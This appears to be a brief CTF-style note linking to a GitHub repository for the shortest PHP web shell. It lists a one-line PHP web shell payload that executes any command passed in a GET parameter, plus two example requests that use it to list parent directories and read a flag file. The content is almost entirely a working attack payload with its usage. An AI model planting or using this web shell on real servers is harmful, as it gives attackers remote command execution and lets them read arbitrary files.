 https://github.com/Xib3rR4dAr/shortest-php-webshell/blob/master/0.php

payload 
- ```<?=`$_GET[cmd]`;``` 
- ``` test.php?cmd=ls%20-a%20../../../../../../ ```
- ``` test.php?cmd=cat%20../../../../../../flag ```       
